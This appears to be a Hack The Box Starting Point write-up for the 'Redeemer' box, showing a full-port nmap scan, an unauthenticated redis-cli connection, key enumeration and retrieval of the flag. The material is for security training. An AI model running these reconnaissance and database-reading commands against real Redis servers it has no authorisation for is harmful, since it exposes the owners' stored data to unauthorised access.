 # Redeemer - Hack The Box (Starting Point)

## Summary
Redeemer is an easy **Starting Point** box that introduces enumeration of the **Redis** service and demonstrates how to query a database directly to retrieve stored information, in this case the flag.

---

## Reconnaissance

### Nmap Scan
```bash
nmap -sC -sV -p- -T4 10.129.x.x (-p- to scan for all ports because first 1000 were closed, -T4 was for faster response)
                             
Result:
Nmap scan report for 10.129.x.x
Host is up (3.5s latency).
Not shown: 46678 closed tcp ports (reset), 18856 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

                             
Exploitation
Connect with redis-cli
redis-cli -h 10.129.x.x (-h for hostname)
Once connected, basic Redis commands can be used to enumerate the database. (Such as info to display information and select to slect index e.g select 0)

Enumerate keys
keys * (To display all keys)
Output:
1) "flag"
2) "temp"
3) "stor"
4) "numb"
(2.05s)

Retrieve the flag:
get flag
